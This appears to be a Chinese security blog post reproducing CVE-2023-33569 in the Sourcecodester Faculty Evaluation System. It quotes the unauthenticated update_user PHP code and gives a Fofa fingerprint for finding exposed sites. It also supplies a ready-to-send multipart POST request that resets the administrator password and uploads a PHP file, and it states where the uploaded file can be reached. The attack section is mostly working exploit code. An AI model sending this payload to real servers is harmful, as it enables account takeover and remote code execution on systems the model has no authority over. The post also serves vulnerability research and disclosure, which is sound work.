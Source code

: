 #  Sourcecodeste Faculty Evaluation System v1.0 Rce(CVE-2023-33569)

原创 Swimt  [ 星悦安全 ](javascript:void\(0\);)

**星悦安全** ![]()

微信号 XingYue404

功能介绍 网络安全知识分享|渗透测试|代码审计|SRC|专注分享优质内容。

____

___发表于_

收录于合集

#代码审计 7 个

#漏洞复现 2 个

## 0x00 前言

 **Fofa: "assets/dist/css/jquery.datetimepicker.min.css"**

 **源码下载 :** **https://www.sourcecodester.com/php/14635/faculty-evaluation-
system-using-phpmysqli-source-code.html**

 **这是一套面板系统，看了代码之后只能说一言难尽.....     界面长这样**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175609.png)

## 0x01 前台任意重置管理员密码+文件上传漏洞

 **我们先看这个 ajax.php 里边调用了 update_user 方法**

    
    
    <?php  
    ob_start();  
    date_default_timezone_set("Asia/Manila");  
    $action = $_GET['action'];            //Get请求action  
    include 'admin_class.php';            //引用admin_class.php  
    $crud = new Action();  
    //省略其他无用代码......  
    ...  
    if($action == 'update_user'){  
    	$save = $crud->update_user();  
    	if($save)  
    		echo $save;  
    ...

 **追到 admin_class.php ,我们来看看 update_user
,看到里边直接更新了管理员的信息，顺带上传了文件，鉴权跟不存在一样...**

    
    
    	function update_user(){  
    		extract($_POST);  
    		$data = "";  
    		$type = array("","users","faculty_list","student_list");  
    	foreach($_POST as $k => $v){  
    			if(!in_array($k, array('id','cpass','table','password')) && !is_numeric($k)){  
    				  
    				if(empty($data)){  
    					$data .= " $k='$v' ";  
    				}else{  
    					$data .= ", $k='$v' ";  
    				}  
    			}  
    		}  
    		$check = $this->db->query("SELECT * FROM {$type[$_SESSION['login_type']]} where email ='$email' ".(!empty($id) ? " and id != {$id} " : ''))->num_rows;  
    		if($check > 0){  
    			return 2;  
    			exit;  
    		}  
    		if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){  
    			$fname = strtotime(date('y-m-d H:i')).'_'.$_FILES['img']['name'];  
    			$move = move_uploaded_file($_FILES['img']['tmp_name'],'assets/uploads/'. $fname);  
    			$data .= ", avatar = '$fname' ";  
      
    		}  
    		if(!empty($password))  
    			$data .= " ,password=md5('$password') ";  
    		if(empty($id)){  
    			$save = $this->db->query("INSERT INTO {$type[$_SESSION['login_type']]} set $data");  
    		}else{  
    			echo "UPDATE {$type[$_SESSION['login_type']]} set $data where id = $id";  
    			$save = $this->db->query("UPDATE {$type[$_SESSION['login_type']]} set $data where id = $id");  
    		}  
      
    		if($save){  
    			foreach ($_POST as $key => $value) {  
    				if($key != 'password' && !is_numeric($key))  
    					$_SESSION['login_'.$key] = $value;  
    			}  
    			if(isset($_FILES['img']) && !empty($_FILES['img']['tmp_name']))  
    					$_SESSION['login_avatar'] = $fname;  
    			return 1;  
    		}  
    	}

 **如果成功就会 return 1 中间还有一串检测邮箱的代码，但问题不大:**

    
    
    $check = $this->db->query("SELECT * FROM {$type[$_SESSION['login_type']]} where email ='$email' ".(!empty($id) ? " and id != {$id} " : ''))->num_rows;

 **Payload:**

    
    
    POST /eval/ajax.php?action=update_user HTTP/1.1  
    Host: x.x.x.x  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0  
    Accept: */*  
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3  
    Accept-Encoding: gzip, deflate  
    X-Requested-With: XMLHttpRequest  
    Referer: http://x.x.x.x/eval/index.php?page=report  
    Content-Length: 737  
    Content-Type: multipart/form-data; boundary=---------------------------166782539326470  
    Connection: close  
      
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="id"  
      
    1  
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="firstname"  
      
    Administrator  
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="lastname"  
      
    a  
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="email"  
      
    admin@admin.com  
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="password"  
      
    admin  
    -----------------------------166782539326470  
    Content-Disposition: form-data; name="img"; filename="php.php"  
    Content-Type: application/octet-stream  
      
    <?php phpinfo();?>  
    -----------------------------166782539326470--

 **没有显示上传路径咋办?  直接登录后台看 ****admin@admin.com|admin** **因为密码已经被修改了...**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175610.png)

 **文件实际上传在这:** **/assets/uploads/时间戳_filename.php**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175611.png)

#  **免责声明：**
**文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！！**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

